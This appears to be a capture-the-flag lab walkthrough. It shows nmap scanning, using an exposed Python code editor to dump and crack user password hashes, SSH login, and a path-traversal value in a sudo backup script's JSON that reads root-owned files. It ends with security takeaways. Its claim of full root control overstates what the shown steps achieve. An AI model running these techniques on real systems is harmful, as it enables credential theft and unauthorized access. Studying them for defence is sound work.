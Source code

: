 Scanning the System  
To begin, we use a tool called Nmap, which helps us check for open ports on  
the target system. This lets us see what services might be running and where  
we can explore further.  
**nmap -A -p- 10.10.11.62**  
Results:  
**PORT STATE SERVICE VERSION  
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)  
5000/tcp open http Gunicorn 20.0.4**  
|_http-title: Python Code Editor  
From the results, we can see that port 5000 is running a Python Code Editor.  
This is interesting because it might allow us to run commands on the system.  
If we can execute arbitrary Python code, we might be able to extract sensitive  
information or even take control of the system.  
Exploiting the Python Code Editor  
Since the editor allows us to execute Python scripts, we attempt to extract user  
data from the system’s database using a simple query:  
print([(user.id, user.username, user.password) for user in User.query.all()])  
**We Found These Users:  
(1, ‘development’, ‘759b74ce43947f5f4c91aeddc3e5bad3’)  
(2, ‘martin’, ‘3de6f30c4a09c27fc71932bfc68474be’)**  
These values represent user credentials, but the passwords are hashed. To gain  
access, we need to crack the password hashes. After performing a hash-  
cracking attempt, we successfully retrieve the plaintext passwords:  
development:development  
**martin:nafeelswordsmaster  
Now that we have Martin’s password, we can attempt to log in via SSH:  
ssh martin@10.10.11.62**  
We successfully gain access to the system as martin.  
1  
Escalating Privileges to Gain More Access  
Examining the backy.sh Script  
Once logged in as martin, we begin exploring files that might help us gain  
higher privileges. We find a script located at /usr/bin/backy.sh and inspect  
its contents:  
**cat /usr/bin/backy.sh**  
Key Observations:  
• The script takes a JSON file (task.json) as input to decide what files  
should be backed up.  
• It runs with administrator (sudo) permissions, meaning it has the  
ability to access restricted files.  
• It only allows backing up files from specific folders (/var/ and /home/),  
but we might be able to trick it.  
Modifying task.json to Extract Sensitive Files  
Step 1: Extracting user.txt  
We edit task.json so that the script will back up the user.txt file, which  
might contain sensitive information:  
**{  
“destination”: “/home/martin/”,  
“multiprocessing”: true,  
“verbose_log”: false,  
“directories_to_archive”: [  
“/home/app-production/user.txt”  
],  
“exclude”: [  
“.*”  
]  
}**  
We then execute the script:  
**sudo /usr/bin/backy.sh task.json**  
The script completes successfully, saving the user.txt file. We then extract  
and read it:  
tar -xjf code_home_app-production_user.txt_2025_March.tar.bz2  
cat user.txt  
Inside, we find our user flag.  
2  
**5c89db216f724a2a9a3a329ecc0f3d21**  
Step 2: Extracting root.txt  
Now that we know we can manipulate the backup system, we attempt to retrieve  
root flag from root.txt.  
**We modify task.json again:  
{  
“destination”: “/home/martin/”,  
“multiprocessing”: true,  
“verbose_log”: true,  
“directories_to_archive”: [  
“/var/….//root/”  
]  
}**  
We then execute the script again:  
**sudo /usr/bin/backy.sh task.json**  
This time, it successfully backs up the root.txt file. We extract and view it:  
**tar -xjf code_var_…_root_root.txt_2025_March.tar.bz2**  
cat root.txt  
Now we have access to root privileges, which means we have fully compromised  
the system.  
Final Thoughts & Lessons Learned  
Through this penetration test, we successfully: — Identified an open Python  
Code Editor that allowed us to run commands. — Extracted user creden-  
tials from the system and cracked the passwords. — Gained SSH access as  
martin and explored system files. — Exploited a vulnerable backup script  
to access restricted files. — Retrieved root.txt, proving we gained full con-  
trol of the system.  
Security Takeaways:  
1. Avoid exposing unnecessary services like an open Python Code Edi-  
tor.  
2. Properly secure sensitive scripts that run with sudo privileges.  
3. Use strong password hashing and implement multi-factor authen-  
tication (MFA).  
3  
4. Restrict file permissions to prevent unauthorized users from modifying  
important files.  
By following proper security measures, such vulnerabilities can be mitigated,  
preventing unauthorized access in real-world systems.  
**Pwned!**